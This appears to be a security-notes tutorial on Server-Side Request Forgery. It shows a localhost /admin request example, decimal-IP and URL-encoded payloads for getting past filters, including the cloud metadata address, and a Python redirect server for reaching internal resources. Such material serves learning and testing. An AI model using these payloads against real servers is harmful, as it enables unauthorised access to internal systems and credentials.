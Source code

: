 ```yaml
---
description: 127.0.0.1
---
```


# Server-Side Request Forgery

Server-Side Request Forgery (SSRF) is an exploit which makes the server that the website is hosted on do internal requests. The exploitation of the vulnerability allows for inducing of server-side requests to the backend, which can be used to read sensitive internal files or make changes.

## How it Works

For example, suppose that a website has a URL requesting functionality and a hidden directory under the `/admin` directory. The hidden directory has a WAF which prevents external IP addresses from accessing it. We can access the hidden directory using this:

```bash
http://example.com?url=http://127.0.0.1/admin
```

`127.0.0.1` refers to the localhost, which is a **logical IP address** that refers to the computer itself. It's otherwise known as the loopback interface, and all computers have some form of IP address referring to itself.

Generally, websites that parse URL's or send requests to the backend cacn be exploited through modifying of HTTP requests. Alternatively, it involves bypassing WAFs using modified HTTP headers, like `X-Forwarded-For`.

## Exploitation

SSRF has a wide range of payloads.

Using decimal IPs:

```bash
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

Using URL-encoded text to bypass WAF:

```bash
http://127.0.0.1/%61dmin
http://127.0.0.1/%2561dmin
```

Redirects can be used to bypass a website. How this would work is our machine would use some form of redirect script, which would open a listening port that would receive a HTTP request and redirect it back to the localhost. This can be used to spoof a request, and allow for resources that would not otherwise be accessible to be read:

```bash
python2 redirect.py --port 80 --ip 127.0.0.1 http://example.com/admin
```

```python
#!/usr/bin/env python
"""
Simple HTTP URL redirector
Shreyas Cholia 10/01/2015
usage: redirect.py [-h] [--port PORT] [--ip IP] redirect_url
HTTP redirect server
positional arguments:
  redirect_url
optional arguments:
  -h, --help            show this help message and exit
  --port PORT, -p PORT  port to listen on
  --ip IP, -i IP        host interface to listen on
"""
import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler
           
def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()
    
    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)
    
    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```

